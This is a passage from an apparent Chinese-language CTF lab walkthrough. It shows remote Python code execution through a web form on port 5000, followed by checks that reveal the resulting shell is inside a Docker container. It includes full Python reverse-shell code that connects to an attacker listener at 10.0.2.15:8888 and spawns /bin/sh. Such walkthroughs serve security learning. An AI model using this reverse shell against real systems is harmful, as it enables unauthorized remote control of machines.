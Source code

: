 
## 远程代码执行
发现确实有一个网页存在在 5000 端口下
访问一下该网页，发现该网页有几个很敏感的点

1. 上面说叫我们输入代码进行执行
2. 确实有个输入框，可以输入内容。
3. 且还有一个测试代码的按钮

> 结合该端口是一个python服务,我们可以尝试一下这边是否可以执行python代码

![20220424_2127.png](http://zhouhao-blog.oss-cn-shanghai.aliyuncs.com/articles/633c3fef2a3007fb4f0344a18b54f660.png)

测试之后发现确实能在此处远程执行python代码
这时我们只需要去网上查找一下关于 python 反弹shell 的相关代码并修改一下端口和目标ip等相关参数即可。


> 记得在运行代码之前,先在攻击机上监听对应的端口 (8888)

```python
import socket, subprocess, os

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("10.0.2.15", 8888))

os.dup2(s.fileno(), 0)
os.dup2(s.fileno(), 1)
os.dup2(s.fileno(), 2)

p = subprocess.call(["/bin/sh", "-i"])
```

![20220424_2145.png](http://zhouhao-blog.oss-cn-shanghai.aliyuncs.com/articles/4a710360d6b9860e3bb9f0c0fe9baba5.png)

发现我们成功获得了一个shell,当我们使用 id 命令发现我们以及是 root 用户了,但想想就发现不对劲了,这台靶机的难度等级为中级，想想也知道不太可能这么容易就获得 root 权限,当我们查看当前目录时，发现有一个 Dockerfile文件。
这时就怀疑是否我们获得的权限（shell）只是目标靶机内的一个 Docker 虚拟机



![20220424_2317.png](http://zhouhao-blog.oss-cn-shanghai.aliyuncs.com/articles/fad366601b511a04ae82bdc9a5c52bac.png)
当我们发现根目录下有 `.dockerenv` 这个文件,有百分之九十的概率,该主机为 Docker 虚拟机

```bash
cat /proc/1/cgroup

```

我们知道 `/proc/1` 进程id 为 1 的进程基本都是跟系统的初始化相关的操作

而跟系统初始化相关的操作 `cgroup`文件夹里包含了很多跟 Docker 镜像主机指示信息

<font color=red>那么我们就能断定该主机为 Docker 虚拟机</font>

## 内网渗透
